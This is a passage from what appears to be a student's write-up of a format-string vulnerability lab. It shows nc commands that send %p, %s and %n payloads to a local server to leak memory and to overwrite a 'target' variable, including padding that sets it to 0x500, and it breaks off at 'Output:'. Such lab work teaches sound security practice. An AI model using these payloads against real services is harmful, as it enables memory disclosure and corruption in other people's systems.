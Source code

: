 ```shell
$ echo $(printf "\xc0\x87\x04\x08")%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%s | nc 127.0.0.1 9090
// Or we can save the data in a file
$ echo $(printf "\xc0\x87\x04\x08")%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%s > input
$ nc 127.0.0.1 9090 < input
```

Note that most computers are small-endian machines.

## Task 5: Change the Server Program’s Memory

### Task 5-A: Change the value to a different value

In this sub-task, we need to change the content of the `target` variable to something else. Your task is considered as a success if you can change it to a different value, regardless of what value it may be. 

We have known that the address of target is `0x0804a040`

```shell
$ echo $(printf "\x40\xa0\x04\x08")%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%n > input5a
$ nc 127.0.0.1 9090 < input5a
```

Then we find the value of target was modified to

```shell
The value of the 'target' variable (after): 0x000000b5
```

### Task 5-B: Change the value to `0x500`

In this sub-task, we need to change to the content of the `target` variable to a specific value 0x500. Your task is considered as a success only if the variable’s value becomes 0x500. 

`0x500`-`0xb3` = 1101, we need add 1101 characters before %p.

```shell
$ echo $(printf "\x40\xa0\x04\x08")*********************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%n > input2
$ nc 127.0.0.1 9090 < input2
```

Output:
